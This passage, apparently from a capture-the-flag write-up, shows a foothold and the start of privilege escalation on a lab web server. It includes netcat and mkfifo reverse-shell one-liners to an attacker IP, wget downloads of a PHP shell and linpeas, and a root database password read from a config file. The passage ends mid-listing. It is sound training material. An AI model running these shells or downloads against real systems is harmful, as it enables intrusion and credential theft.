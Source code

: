 ## Setting Foothold ##
### Starting a Reverse Shell ###
First let's start a ```netcat``` listener:
```nc -lvnp 1234```
Tried several reverse shell techniques:
```
nc 10.8.135.88 1234 -e /bin/bash
```
Didn't work. So I started a python HTTP server on my machine and tried to download a PHP reverse shell:
```
wget http://10.8.135.88:8000/shell.php
```
Still didn't work. But luckily, I found the right technique eventually:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.135.88 1234 >/tmp/f
```

### Shell Stabilisation ###
```
python -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm;
```
Press CTRL + Z and now, back on our host machine:
```
stty raw -echo; fg
```
And press Enter and we're back!

### Getting User Flag ###
```
www-data@ubuntu:/var/www/html$ cat ../../../home/www-data/flag.txt 
```

## Privilege Escalation ##
Let's start a python HTTP server on our host and download ```linpeas.sh``` to the victim machine
```
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
```
www-data@ubuntu:/var/www/html$ wget http://10.8.135.88:8000/linpeas.sh
www-data@ubuntu:/var/www/html$ chmod +x linpeas.sh
```
 The relevant finding is the following backup-manager file:
 ```
 [+] Searching backup-manager files
backup-manager file: /var/www/html/fuel/application/config/database.php 
```

Looking at its contents we find the obvious ```root``` password:
```
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',